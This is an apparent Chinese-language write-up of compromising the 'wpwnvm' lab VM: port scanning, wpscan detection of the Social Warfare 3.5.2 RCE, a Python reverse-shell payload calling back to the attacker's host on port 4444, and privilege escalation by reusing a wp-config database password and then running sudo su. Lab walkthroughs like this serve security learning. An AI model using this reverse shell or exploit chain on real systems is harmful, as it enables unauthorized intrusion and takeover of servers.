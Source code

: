 # wpwnvm
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ sudo nmap -p- 192.168.146.65                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F9:0B:60 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds

└─$ sudo nmap -p22,80 -sV -A 192.168.146.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:F9:0B:60 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.146.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds

```
这个靶机只有一个80和22端口开着, 那么入口就在网页端了
### Web信息枚举
![Img](./FILES/wpwnvm/img-20220814173522.png)
直接访问是一个建设中的页面
<br>
使用dirsearch查看一下可访问的
```
[17:36:12] 200 -  134B  - /index.html
[17:36:21] 200 -   57B  - /robots.txt
[17:36:32] 200 -    7KB - /wordpress/wp-login.php
[17:36:32] 200 -   27KB - /wordpress/
                                          
```
![Img](./FILES/wpwnvm/img-20220814173742.png)
robots.txt是一个fake的信息...
<br>
但是这是一个wordpress, 那直接上wpscan
<br>
TIP: 在这里我用了wpscan的api, 直接扫描出了可能有关的漏洞
```
i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Comment (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/32085d2d-1235-42b4-baeb-bc43172a4972
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9978
 |      - https://wordpress.org/support/topic/malware-into-new-update/
 |      - https://www.wordfence.com/blog/2019/03/unpatched-zero-day-vulnerability-in-social-warfare-plugin-exploited-in-the-wild/
 |      - https://threatpost.com/wordpress-plugin-removed-after-zero-day-discovered/143051/
 |      - https://twitter.com/warfareplugins/status/1108826025188909057
 |      - https://www.wordfence.com/blog/2019/03/recent-social-warfare-vulnerability-allowed-remote-code-execution/
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.146.65/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt

```

尝试枚举用户
```
i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
在上面使用wpscan的时候, 有一个100%命中的插件, social warfare, 那我们用searchspolit试试
![Img](./FILES/wpwnvm/img-20220814175756.png)
竟然是一个RCE, 拉下来查看一下代码
![Img](./FILES/wpwnvm/img-20220814175833.png)
path在wp-admin下面的post处, 那我们就直接根据漏洞的path来获取我们的shell
![Img](./FILES/wpwnvm/img-20220814181711.png)
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.146.50",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
在本地起监听端口, 同时使用python3去起一个http服务
```
└─$ sudo python3 -m http.server 80                                   
[sudo] password for aaron: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.65] 49886

```

然后我们再用curl去访问本地, 这样我们就突破边界拿到了靶机的用户权限
![Img](./FILES/wpwnvm/img-20220814182138.png)
## 提升权限
### 查看wordpress文件
```
www-data@wpwn:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```
可以看到wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
然后我们来利用python获取可交互式的shell, 尝试使用这个密码登录另一个用户
![Img](./FILES/wpwnvm/img-20220814182655.png)
登录上来了!
查看sudo -l, 发现这个用户可以执行所有的sudo权限.
![Img](./FILES/wpwnvm/img-20220814182845.png)

那就直接sudo su
![Img](./FILES/wpwnvm/img-20220814182827.png)
提权成功
